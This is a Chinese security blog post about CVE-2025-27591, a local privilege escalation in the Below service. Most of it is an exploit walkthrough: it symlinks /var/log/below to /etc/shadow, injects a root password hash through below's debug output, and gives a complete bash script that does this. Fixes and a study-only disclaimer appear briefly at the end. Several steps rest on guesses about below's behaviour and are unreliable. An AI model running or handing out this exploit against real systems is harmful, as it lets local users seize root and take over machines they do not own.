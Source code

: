 #  Linux提权漏洞CVE-2025-27591   
原创 柠檬赏金猎人  柠檬赏金猎人   2025-03-26 21:59  
  
CVE-2025-27591 是一个已知的权限提升漏洞，存在于 Below 服务（版本 < v0.9.0）。该漏洞源于 /var/log/below 目录被设置为全局可写（world-writable），允许本地非特权用户通过符号链接攻击修改敏感文件（如 /etc/shadow），从而提升至 root 权限。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/OkRKg4J9smW36UKh3dC8qXKB8loYLZ6DcgW8MlLKrzQSzaTuibWAL2XOX5Vkc7Lg7pia7oKcJOAeDn1Kdhjmrf0Q/640?wx_fmt=jpeg "")  
### 漏洞利用原理  
  
1.全局可写目录：/var/log/below 的权限为 777，任何用户都可写入。  
2.符号链接攻击：攻击者创建符号链接，将日志文件指向 /etc/shadow，Below 服务以 root 权限操作时会间接修改目标文件。  
3.权限提升：通过覆盖或修改 /etc/shadow 设置已知密码，实现 root 访问。  
### 前提条件  
  
•目标系统运行 Below < v0.9.0。  
•攻击者拥有本地非特权用户权限。  
•/var/log/below 目录全局可写（可用 ls -ld /var/log/below 检查）。  
### 基本利用步骤  
  
1.确认漏洞存在： ls -ld /var/log/below 输出如 drwxrwxrwx 表示目录可写。  
2.创建符号链接： ln -s /etc/shadow /var/log/below/attack.log  
3.触发服务写入： 假设 below 会向 attack.log 写入日志： below some_command 2>/var/log/below/attack.log  
4.验证提权： 如果 /etc/shadow 被修改，使用新密码登录： su -  
### 方法 1：利用日志输出  
  
假设 below 支持将输入或调试信息写入日志文件：  
  
1.生成密码哈希： mkpasswd -m sha-512 "newpassword" 输出示例： $6$randomsalt$hashedpassword 构造完整条目： root:$6$randomsalt$hashedpassword:19448::::::  
2.创建符号链接： ln -sf /etc/shadow /var/log/below/attack.log  
3.尝试控制输出： 假设 below 支持调试模式并回显输入： below --debug "root:$6$randomsalt$hashedpassword:19448::::::" 2>/var/log/below/attack.log  
4.验证结果： grep "$hashedpassword" /etc/shadow && echo "成功！尝试密码 'newpassword'"  
### 方法 2：分步注入  
  
若无法一次性写入完整条目，可尝试追加方式：  
  
1.准备目标内容： echo "root:$6$randomsalt$hashedpassword:19448::::::" > /tmp/payload  
2.利用追加模式： 假设 below 支持日志追加： below some_command --log-append /tmp/payload 2>>/var/log/below/attack.log  
3.清理多余数据： 若 /etc/shadow 格式被破坏，需在提权后修复。  
### 示例脚本  
  
```
#!/bin/bash
# 生成密码哈希
PASSWORD="newpassword"
HASH=$(mkpasswd -m sha-512 "$PASSWORD")
PAYLOAD="root:$HASH:19448::::::"

# 检查目录权限
if [ "$(stat -c %A /var/log/below)" != "drwxrwxrwx" ]; then
    echo "目录不可写，漏洞可能已修复"
    exit 1
fi

# 创建符号链接
ln -sf /etc/shadow /var/log/below/attack.log

# 尝试写入
echo "尝试写入: $PAYLOAD"
below --debug "$PAYLOAD" 2>/var/log/below/attack.log

# 检查结果
if grep -q "$HASH" /etc/shadow; then
    echo "成功写入！尝试使用密码 '$PASSWORD' 登录"
else
    echo "写入失败，检查 below 的行为"
fi
```  
  
  
  
•修复情况：Below >= v0.9.0 已修复此漏洞。  
•  
设置目录权限：chmod 700 /var/log/below  
•  
升级 Below 至最新版本。  
  
  
仅限交流学习使用，如您在使用本工具或代码的过程中存在任何非法行为，您需自行  
承担相应后果，我们将不承担任何法律及连带责任。  
“如侵权请私聊公众号删文”。  
  
  
